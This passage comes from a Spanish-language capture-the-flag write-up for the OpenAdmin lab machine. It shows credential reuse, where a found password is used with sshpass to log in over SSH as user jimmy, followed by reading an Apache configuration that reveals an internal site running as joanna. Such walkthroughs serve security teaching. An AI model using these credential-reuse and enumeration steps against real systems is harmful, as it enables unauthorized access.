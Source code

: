 ### Trying access on SSH with recently found password

Probamos de comprobar si estas credenciales se reutilizan para el usuario `jimmy`que hemos encontrado que dispone de `bash` (comprobado desde el archivo `/etc/passwd`).

```bash
❯ sshpass -p 'n1nj4W4rri0R!' ssh jimmy@10.10.10.171
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar  7 04:58:48 UTC 2025

  System load:  0.19              Processes:             177
  Usage of /:   31.2% of 7.81GB   Users logged in:       0
  Memory usage: 10%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.


Last login: Thu Jan  2 20:50:03 2020 from 10.10.14.3
jimmy@openadmin:~$ 
```

## Initial Access

### Internal Website found

Revisando los archivos de configuración de `Apache`, nos encontramos habilitado una página web interna en el puerto `52846` la cual se llama `internal.openadmin.htb` y tiene asignado el `AssignUserID`como `joanna`. Lo cual nos sugiere que quizás `joanna` levante este servicio.

```bash
jimmy@openadmin:/home$ cat /etc/apache2/sites-enabled/internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```
